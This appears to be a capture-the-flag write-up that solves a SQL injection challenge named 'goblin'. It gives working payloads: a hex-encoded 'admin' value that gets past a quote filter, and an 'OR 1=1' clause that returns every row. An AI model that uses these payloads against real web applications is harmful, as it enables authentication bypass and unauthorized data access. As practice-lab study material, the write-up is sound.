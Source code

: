 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 3
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/d35d9a32-55a6-4752-a4d4-955971ba3131)

We are provided with the SQL query:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no={$_GET[no]}
```

This time the application blocks quotation marks. It also does not directly insert user input into the `id` field.

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello {$result[id]}`.
2. `if($result['id'] == 'admin')`: It then checks if the `id` is set to `admin`. If yes, it prints the flag.

We want the second conditional statement to be executed.

There are two methods.

### Method 1

In order to make the result of the first query `False`, we can provide the following URI parameter:

```
?no=0
```

The resultant query then becomes:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=0
```

Since no=0 is always false, the result of the `AND` operation will always be `False`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/130b241a-088d-4187-86fb-5944f1ff0503)

As expected, the `Hello {$result[id]}` message isn't printed.

In order to execute the second conditional statement, we can provide the following URI parameter:

```
?no=0 OR id=0x61646d696e
```

We are providing the Hexadecimal representation of the `admin` string.

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=0 OR id=0x61646d696e
```

The result of the first conditional is already `False` and because we just the `id` field to `admin`, the flag will be printed.

![3](https://github.com/Kunull/Write-ups/assets/110326359/f349d379-8a99-4e6f-b4fa-6c9b2c08e527)


### Method 2

If we provide the following URI parameter:

```
?no=no
```

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=no
```

The result will always be `True` since any column (`no`) compared with itself is always true.

Next, if we add an `OR` command as follows:

```
?no=no OR 1=1 ORDER BY id;
```

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=no OR 1=1 ORDER BY id;
```

This will print out all the rows as 1=1 is always true and anything `OR` with true is true.

![4](https://github.com/Kunull/Write-ups/assets/110326359/dbfef2c6-67a6-4d7a-9403-8a3a18bae228)
